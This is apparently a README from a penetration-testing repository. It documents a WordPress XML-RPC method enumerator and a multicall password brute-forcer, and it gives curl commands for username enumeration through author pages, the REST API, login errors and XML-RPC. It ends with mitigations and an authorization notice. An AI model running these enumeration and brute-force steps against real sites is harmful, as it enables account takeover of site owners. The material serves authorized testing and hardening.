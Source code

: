 # WordPress XML-RPC Testing Tools

This directory contains tools for testing WordPress XML-RPC endpoints for security vulnerabilities and testing password lists generated by the wordlist generator.

## What is XML-RPC?

WordPress XML-RPC is a remote procedure call (RPC) protocol that allows external applications to interact with WordPress sites. It's accessible at `/xmlrpc.php` and enabled by default on most WordPress installations.

### Security Implications

XML-RPC can be exploited for:

- **Brute force attacks**: The `system.multicall` method allows testing multiple passwords in a single request
- **Amplification attacks**: Single requests can perform multiple operations
- **Information disclosure**: Methods like `system.listMethods` reveal available functionality

## Tools

### `list.py` - Method Enumeration

Discovers available XML-RPC methods and checks which ones are accessible without authentication.

```bash
python list.py <URL> [options]
```

**Example:**

```bash
python list.py https://target.is
python list.py https://target.is --debug --header "User-Agent: Custom Bot"
```

**Options:**

- `--header/-H` - Custom HTTP headers (can be used multiple times)
- `--max-retries` - Maximum retry attempts for 400 errors (default: 5)
- `--debug` - Enable debug logging
- `--log-file` - Custom log file path (default: listmethods_logs.txt)

**What it does:**

- Calls `system.listMethods` to get all available methods
- Tests each method to see if authentication is required
- Helps identify potential attack vectors

### `brute.py` - Password Brute Force

Tests password lists against WordPress user accounts using the XML-RPC multicall method.

```bash
python brute.py <URL> <password_file> <username1> [username2]... [options]
```

**Example:**

```bash
python brute.py https://target.is ../wordlist.txt admin editor
python brute.py https://target.is passwords.txt admin --debug --wait-time 2.0 --header "X-Forwarded-For: 192.168.1.1"
```

**Options:**

- `--header/-H` - Custom HTTP headers (can be used multiple times)
- `--wait-time` - Wait between requests in seconds (default: 1.0)
- `--debug` - Enable debug logging
- `--log-file` - Custom log file path (default: brute_logs.txt)
- `--chunk-size` - Password chunk size for reading (default: 500)

**Features:**

- Tests up to 2000 passwords per request using multicall, depending on the target's server limitations.
- Automatically validates positive results individually
- Includes rate limiting and error handling
- Works with wordlists generated by the parent directory tool

## Username Enumeration Techniques

Before running brute force attacks, you need to identify valid usernames. Here are several methods:

### 1. Author Parameter (`?author=1`)

WordPress exposes usernames through author pages:

```bash
curl "https://target.is/?author=1"
curl "https://target.is/?author=2"
curl "https://target.is/?author=3"
```

Look for redirects to `/author/username/` or check the page title/content for usernames.

### 2. REST API Enumeration

WordPress REST API exposes user information:

```bash
# Method 1: Direct REST API
curl "https://target.is/wp-json/wp/v2/users"

# Method 2: Using rest_route parameter
curl "https://target.is/?rest_route=/wp/v2/users"
```

This returns JSON with user details including usernames, display names, and user IDs.

### 3. Wayback Machine

Search historical snapshots for author pages and usernames:

1. Go to [web.archive.org](https://web.archive.org)
2. Search for the target domain
3. Look for URLs containing:
   - `/author/`
   - `?author=`
   - Author bylines in blog posts
   - Comment sections with usernames

**Example searches:**

- `site:target.is author`
- `site:target.is "written by"`
- `site:target.is "posted by"`

### 4. Login Error Differences

Some WordPress sites reveal username validity through login error messages:

```bash
# Test with invalid username
curl -X POST "https://target.is/wp-login.php" \
  -d "log=nonexistentuser&pwd=wrongpass"

# Test with valid username
curl -X POST "https://target.is/wp-login.php" \
  -d "log=admin&pwd=wrongpass"
```

Look for different error messages that might indicate username validity.

### 5. XML-RPC Username Validation

Use XML-RPC methods to validate usernames:

```bash
curl -X POST "https://target.is/xmlrpc.php" \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?>
<methodCall>
  <methodName>wp.getCategories</methodName>
  <params>
    <param><value><string>testuser</string></value>
    <param><value><string>wrongpass</string></value>
  </params>
</methodCall>'
```

Different error responses may indicate username validity.

## Integration with Wordlist Generator

This tool is designed to work with wordlists generated by the parent directory tool:

1. **Generate targeted wordlist:**

   ```bash
   cd ..
   python main.py --output custom_passwords.txt
   ```

2. **Enumerate usernames** using methods above

3. **Test credentials:**
   ```bash
   cd xml-rpc
   python brute.py https://target.com ../custom_passwords.txt admin editor author
   ```

## Security Notes

- **Authorization Required**: Only test systems you own or have explicit permission to test
- **Rate Limiting**: The tools include delays to avoid overwhelming target servers
- **Detection**: XML-RPC attacks are easily detected and logged
- **Blocking**: Many security plugins block or disable XML-RPC entirely

## Mitigation

To protect against XML-RPC attacks:

1. **Disable XML-RPC** if not needed:

   ```php
   add_filter('xmlrpc_enabled', '__return_false');
   ```

2. **Block xmlrpc.php** in web server configuration
3. **Use security plugins** that monitor and block brute force attempts
4. **Implement strong passwords** and two-factor authentication
5. **Monitor logs** for suspicious XML-RPC activity

## Security Notice

Use only with proper authorization. This tool is for ethical security testing and educational purposes only.

